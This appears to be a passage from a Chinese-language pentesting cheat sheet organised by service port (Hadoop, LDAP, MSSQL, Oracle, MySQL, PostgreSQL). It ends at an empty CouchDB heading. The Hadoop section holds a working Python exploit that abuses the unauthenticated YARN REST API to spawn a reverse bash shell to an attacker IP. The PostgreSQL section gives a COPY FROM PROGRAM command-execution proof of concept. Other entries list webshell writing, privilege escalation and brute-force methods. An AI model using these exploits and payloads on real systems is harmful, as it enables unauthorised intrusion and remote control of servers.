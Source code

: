 

### 50070 端口（hadoop）

```
安全漏洞：未授权命令执行

import requests
target = 'http://127.0.0.1:8088/'
lhost = '192.168.253.128'
url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```



## 3、数据库端口

### 389 端口（ldap）

安全漏洞：未授权访问 、弱口令利用方式：通过LdapBrowser工具直接连入。

### 1433 端口（Mssql）

安全漏洞：弱口令、暴力破解利用方式：差异备份getshell、SA账户提权等

### 1521 端口（Oracle）

安全漏洞：弱口令、暴力破解利用方式：通过弱口令/暴力破解进行入侵。

### 3306 端口（MySQL）

安全漏洞：弱口令、暴力破解利用方式：利用日志写入webshell、udf提权、mof提权等。

### 5432 端口（ PostgreSQL）

安全漏洞：弱口令、高权限命令执行利用方式：攻击者通过弱口令获取账号信息，连入postgres中，可执行系统命令。。PoC参考： DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'id'; SELECT * FROM cmd_exec;

### 5984 端口（CouchDB）
